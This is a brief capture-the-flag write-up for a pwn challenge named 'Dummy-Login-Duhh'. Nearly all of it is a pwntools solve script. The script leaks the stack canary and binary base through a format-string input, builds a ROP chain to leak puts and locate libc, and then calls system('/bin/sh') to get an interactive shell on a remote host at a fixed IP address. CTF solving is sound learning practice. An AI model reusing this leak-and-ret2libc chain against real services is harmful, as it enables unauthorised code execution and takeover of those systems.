

# Dummy-Login-Duhh
### Category: Pwn

### Prompt:


It was a ret2libc attack.
Solve script:

```python
from pwn import *
import re

context.binary="rop"
elf = context.binary
rop = ROP(elf)

libc=ELF("libc.so.6")
r=remote('143.244.138.133',8001)

payload = b"%15$p.%17$p"

r.recvuntil(b"username: ")
r.sendline(payload)

data=r.recvline().decode()
r.recvuntil(b"password: ")

CAN, BIN = re.findall(r'0x[0-9a-f]{4,}',data)
canary = int(CAN, 16)
binary_address = int(BIN, 16)
binary_base = binary_address - 0x8c7

print(f'canary: {canary:08x}')
print(f'binary: {binary_base:08x}')

puts_got=binary_base + elf.got["puts"]
puts_plt=binary_base + elf.plt["puts"]
main_plt=binary_base + elf.symbols["getPasswd"]

pop_rdi=binary_base + rop.find_gadget(["pop rdi","ret"]).address
ret=binary_base+rop.find_gadget(["ret"]).address
payload = b"A"*0x48 + p64(canary) + b"A"*0x8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_plt)

r.sendline(payload)
leak=r.recvline()[:-1]+b'\x00\x00'
leak=u64(leak)
r.recvuntil(b"password: ")
print(f'puts: {leak:08x}')
LIBC_BASE = leak - libc.symbols["puts"]

print(f"libc: {LIBC_BASE:08x}")

system     = LIBC_BASE    + libc.symbols["system"]
EXIT     = LIBC_BASE    + libc.symbols["exit"]
binsh     = LIBC_BASE    + next(libc.search(b"/bin/sh"))

payload = b"A"*0x48 + p64(canary) + b"A"*0x8 + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system) + p64(EXIT)

r.sendline(payload)
r.interactive()
```